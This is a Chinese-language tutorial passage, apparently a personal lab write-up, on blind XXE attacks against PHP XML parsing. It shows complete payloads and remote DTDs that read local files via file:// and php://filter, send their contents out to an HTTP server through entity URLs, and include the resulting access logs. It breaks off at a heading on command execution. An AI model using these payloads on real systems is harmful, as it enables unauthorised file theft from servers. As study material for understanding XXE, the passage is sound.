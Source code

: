 <br>
### Blind XXE
在没有回显的情况下，可以建立起带一条外数据通道带出数据
可以将文件内容读取后，放在URL路径中，并访问自己的远程服务器，那么在访问日志中可以查看到带出的数据，也可以利用参数来接收

#### file://
使用file协议读取文件，注意利用这种方式读取文件可能会遇见如下问题
 - 如果文件内容带有`空格`、`<`、`>`会报错
   - 报错信息为`...Entity: line 1: parser error : Invalid URI: ...`
 - 如果文件内容带有`&`,并且使用参数接受数据的方式，只能看见`&`符号之前的内容

```
// Payload
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///d:/test.txt">
<!ENTITY % dtd SYSTEM "http://localhost:8088/xxe/xxe2.xml">
%dtd; %all;
]>
<value>&send;</value>

// xxe2.xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:8088/%file;'>">
<!-- <!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:8088/data.php?data=%file;'>"> -->

// access.log
::1 - - [05/Jun/2018:14:53:31 +0800] "GET /hello HTTP/1.0" 404 203


注意：
原本test.txt文件中是hello world，执行的时候发现报错信息为：
Warning: simplexml_load_string() [function.simplexml-load-string]: Entity: line 1: parser error : Invalid URI: http://localhost:8088/hello world in D:\PhpStudyCode\xxe\xxe.php on line 3

后来把空格去除后，可以生效
```
<br>
#### php://filter
利用php://filter并且编码为base64，同样file的问题也能解决
```
// Payload
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
<!ENTITY % dtd SYSTEM "http://localhost:8088/xxe/xxe2.xml">
%dtd; %all;
]>
<value>&send;</value>


// xxe2.xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:8088/data.php?data=%file;'>">


// access.log
::1 - - [05/Jun/2018:15:03:01 +0800] "GET /data.php?data=aGVsbG8gd29ybGQ= HTTP/1.0" 200 -

```
<br>
## 命令执行
前提是PHP安装了`expect`扩展。默认不安装
```
网上找的POC如下
```